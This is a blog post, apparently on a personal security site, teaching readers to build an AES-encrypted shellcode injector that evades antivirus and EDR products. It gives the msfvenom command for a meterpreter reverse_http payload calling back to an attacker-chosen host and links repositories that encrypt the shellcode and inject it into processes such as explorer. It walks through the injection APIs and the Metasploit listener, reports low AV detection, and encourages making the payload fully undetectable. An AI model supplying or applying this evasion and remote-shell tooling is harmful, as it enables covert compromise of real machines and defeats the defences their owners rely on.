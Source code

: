 ```yaml
---
layout: post
title: Shell Code Injector with AES Encryption - EDR Bypass 
---
```

![](/images/2022-03-24-AESInj/0.png)

I have been getting a lot of messages from people asking about AV evasion. I won’t give away the source code for a fully undetectable payload, but I thought I’d share a basic implementation of a shell code runner that will take AES encrypted shell code and decrypt it and inject into a process such as explorer!
Before we proceed, the technique used to inject shell code is well known to AVs and you will get flagged, the purpose of this writeup is to show how AES can be implemented, and you can use same/similar techniques to bypass EDR solution with more sophisticated techniques 

## What do you need to follow along?

•	Metasploit 

•	Visual Studio 

•	Windows Machine for testing payload 


The first thing to do is to create a shell code using msfvenom:
```
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=IP LPORT=443 -f csharp
``` 

![](/images/2022-03-24-AESInj/1.png)

Now download the project for encrypting the shellcode with AES encryption:
[Click Here](https://github.com/san3ncrypt3d/AESShellCodeEncrypter/tree/main)

Make sure to change the shellcode to your shellcode here:

![](/images/2022-03-24-AESInj/2.png)

*** Note: if you change the key/IV make sure to update them on the decryption part as well ! ***

Once you compile and run the program, you will get the encrypted shell code:

![](/images/2022-03-24-AESInj/3.png)


Now we will need to create a program that will essentially take this encrypted shell code, and decrypt It and inject into a process’s virtual address space.

Here is the program: [AESInjector](https://github.com/san3ncrypt3d/AESShellCodeInjector)

I will briefly explain what is going on:

•	"buf" is an array with the encrypted shell code

•	"Dshell" uses the AESDecrypt function and stores the decrypted shell code

•	Now we use Win32 Api’s for allocating shell code in memory, copy the shell code and execute it with VirtualAllocEx and WriteProcessMemory and CreateRemoteThread:

![](/images/2022-03-24-AESInj/4.png)

Now you change the “buf” array with the encrypted shell we acquired from previous program and compile the program and run it

Of course, make sure to start a lister on Metasploit:

![](/images/2022-03-24-AESInj/5.png)

At the time of writing this project, the payload is only detected by 3/26 Av engines:

![](/images/2022-03-24-AESInj/6.png)

I am a bit surprised that only 3 AV’s caught it, but you can enhance this project into making it completely undetectable:

![](/images/2022-03-24-AESInj/7.png)



Credits: some of the codes are taken from other open source projects 

Reference:
1. https://www.c-sharpcorner.com/article/aes-encryption-in-c-sharp/
2. https://docs.microsoft.com/en-us/cpp/dotnet/how-to-call-native-dlls-from-managed-code-using-pinvoke?view=msvc-170 

